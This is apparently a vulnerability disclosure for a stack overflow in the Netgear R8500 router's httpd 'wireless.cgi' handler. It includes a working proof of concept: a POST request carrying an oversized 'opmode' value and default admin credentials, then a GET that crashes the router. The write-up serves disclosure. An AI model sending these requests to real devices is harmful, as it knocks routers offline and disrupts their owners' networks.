



# Netgear Vulnerability

Vendor:Netgear

Product:R8500

Version:1.0.2.160

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in Netgear router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `wireless.cgi` function, `opmode、opmode_an、opmode_an_2` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `opmode、opmode_an、opmode_an_2` to execute arbitrary code.

As you can see here, the input has not been checked. And then,call the function `acosNvramConfig_set ` to store this input.

<div  align="center"></div>

Eventually, in `wlg_cgi_opmode_get` function. The parameter `opmode、opmode_an、opmode_an_2` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

Among them, `wlg_cgi_opmode_get` will be called by multiple htm pages. Here we visit `WLG_wireless_tri_band.htm` to trigger the vulnerability

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `opmode、opmode_an、opmode_an_2`,  in `wireless.cgi`
* visit the `WLG_wireless_tri_band.htm` again


## PoC

We set `opmode` as **aaaaa......**,  in `wireless.cgi`

```http
POST /wireless.cgi?id=265bfd844965b6b4c277da6374c2165c49cb0d7867a8dae9ae3e219e34ac254c HTTP/1.1
Host: 192.168.1.1
Content-Length: 4115
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/WLG_wireless_tri_band.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF_TOKEN=1222440606
Connection: close

WRegion=2&ssid_bc=ssid_24G_bc&ssid=NETGEAR68&w_channel=0&opmode=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&security_type=WPA2-PSK&authAlgm=automatic&wepenc=1&wep_key_no=1&KEY1=&KEY2=&KEY3=&KEY4=&passphrase=icyballoon687&encryptmode=1&wpa_en_gk_int=3600&RADIUSAddr1_wla=&RADIUSAddr2_wla=&RADIUSAddr3_wla=&RADIUSAddr4_wla=&wpa_en_radius_port=1812&wpa_en_radius_ss=&ssid_bc_an=ssid_5G_bc&ssid_an=NETGEAR68-5G&w_channel_an=36&opmode_an=HT80&security_type_an=WPA2-PSK&authAlgm_an=automatic&wepenc_an=1&wep_key_no_an=1&KEY1_an=&KEY2_an=&KEY3_an=&KEY4_an=&passphrase_an=icyballoon687&encryptmode_an=1&wpa_en_gk_int_wlg=3600&RADIUSAddr1_wlg=&RADIUSAddr2_wlg=&RADIUSAddr3_wlg=&RADIUSAddr4_wlg=&wpa_en_radius_port_wlg=1812&wpa_en_radius_ss_wlg=&ssid_an_2=NETGEAR68-5G-2&w_channel_an_2=149&opmode_an_2=300Mbps&security_type_an_2=Disable&authAlgm_an_2=automatic&wepenc_an_2=1&wep_key_no_an_2=1&KEY1_an_2=&KEY2_an_2=&KEY3_an_2=&KEY4_an_2=&passphrase_an_2=icyballoon687&encryptmode_an_2=1&wpa_en_gk_int_wlh=3600&RADIUSAddr1_wlh=&RADIUSAddr2_wlh=&RADIUSAddr3_wlh=&RADIUSAddr4_wlh=&wpa_en_radius_port_wlh=1812&wpa_en_radius_ss_wlh=&sku_name=PR&tempSetting=0&tempRegion=5&setRegion=2&wds_enable=0&wds_enable_an=0&only_mode=0&band_steering_5g=0&show_wps_alert=0&security_type_2G=WPA2-PSK&security_type_5G=WPA2-PSK&security_type_5G_2=None&init_security_type_2G=WPA2-PSK&init_security_type_5G=WPA2-PSK&init_security_type_5G_2=None&init_passhprase_5G_2=icyballoon687&init_ssid_5G_2=NETGEAR68-5G-2&initChannel=0&initAuthType=automatic&initDefaultKey=0&initChannel_an=&initAuthType_an=automatic&initDefaultKey_an=0&initChannel_an_2=&initAuthType_an_2=automatic&initDefaultKey_an_2=0&telec_dfs_ch_enable=1&ce_dfs_ch_enable=1&fcc_dfs_ch_enable=0&auto_channel_5G=1&support_ac_mode=1&board_id=U12H334T00_NETGEAR&enable_band_steering=0&fw_sku=SKU_WW&wla_radius_ipaddr=0.0.0.0&wlg_radius_ipaddr=0.0.0.0&wla_ent_secu_type=WPA-AUTO&wlg_ent_secu_type=WPA-AUTO&wan_ipaddr=192.168.0.66&wan_netmask=255.255.255.0&wlh_radius_ipaddr=0.0.0.0&wlh_ent_secu_type=WPA-AUTO&wlh_ent_secu_port=1812&wlh_ent_secu_interval=3600&wlh_radius_secret=&wifi_dual_5g_band=1&init_ssid_bc_an_2=&init_opmode_an_2=1
```

<div  align="center"></div>

visit the `WLG_wireless_tri_band.htm` again

```
GET /WLG_wireless_tri_band.htm HTTP/1.1
Host: 192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF_TOKEN=1222440606
Connection: close
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
